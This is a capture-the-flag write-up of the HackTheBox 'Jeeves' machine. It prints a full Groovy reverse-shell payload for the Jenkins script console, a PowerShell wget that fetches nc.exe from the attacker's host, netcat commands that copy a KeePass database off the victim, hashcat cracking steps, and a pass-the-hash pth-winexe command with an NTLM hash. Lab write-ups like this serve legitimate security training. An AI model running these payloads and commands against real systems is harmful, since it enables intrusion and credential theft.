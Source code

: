 ```yaml
---
layout: single
title:  Jeeves-HackTheBox
date: 2021-12-18
classes: wide
header:
  teaser: 
tags:
  - ctf
  - HackTheBox
--- 
```



Jeeves is in reference to a Jenkins server that we will eventually be exploiting. Super fun recap box!

![](/assets/images/Jeeves/jeevessite1.PNG)
Starting off by scanning ports.
![](/assets/images/Jeeves/jeevesscan.PNG)

See there is at least one webserver. Fuzz directories, ran nikto etc. Nothing of real interest there.
Check out the second Jetty webserver spotted in the nmap scan. gobuster until we find askjeeves	
![](/assets/images/Jeeves/jeeves1finsihsed.PNG)

Stumble accross the scripting console
![](/assets/images/Jeeves/jeevescli.PNG)

Do research to find ways to exploit this
exploit jenkins with groovy script 
https://book.hacktricks.xyz/pentesting/pentesting-web/jenkins#code-execution
![](/assets/images/Jeeves/jeevesscript.PNG)


https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy

String host="<LOCAL-IP>";
int port=1234;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

![](/assets/images/Jeeves/jeevesusershell.PNG)  
  
We get a user shell as kohsuke. 
After a little bit of recon we come accross CEH.kdbx 
  
This file format appears to be a keepass password file. Before we attempt to see the password we have to download the file to our local machine. 
![](/assets/images/Jeeves/jeeveskdbx.PNG)
I achieved this by downloading a netcat executable from the user shell we are in from a python http server that we host.
  
"powershell wget "http://localip:8000/nc.exe" -outfile nc.exe"
The virtual machine cannot reach out to github to download the file from there
Then "nc -lnvp <port> > CEH.kdbx" on your local machine and "nc.exe <local-ip> <same-port> < "CEH.kdbx" on the victim machine

We need a password to open the kdbx file. Why dont we crack it? 
I used this article as guidance, the main points summarized are:
                                                                                               
https://www.rubydevices.com.au/blog/how-to-hack-keepass 
download and use keepass2john on the kdbx file.

./keepass2john CEH.kdbx > CEH.hash
Remove name of keepass database from the new hashfile. 
use hashcat to crack the file.

./hashcat -m 13400 -a 0 -w 1 CEH.hash <wordlist-file> 
 moonshine1 is the password to the keepass file
 ![](/assets/images/Jeeves/jeeveskeepass1.png)
 ![](/assets/images/Jeeves/jeeveskeepass2.png)
 
 We find a hash in the keepass file under the title of Backup stuff
 From here I got stuck for a while. While researching I found the tool pth-winexe
 read the docs, run to get admin! 
  
 pth-winexe --user=jeeves/administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 --system //10.10.10.63 cmd.ex
 
 we now have a root shell!
 ![](/assets/images/Jeeves/jeevesroot.PNG)

admin has hm.txt file redirecting to actual file
![](/assets/images/Jeeves/jeeveshn.PNG)
get-content .\hm.txt -stream root.txt
and we get root flag :)
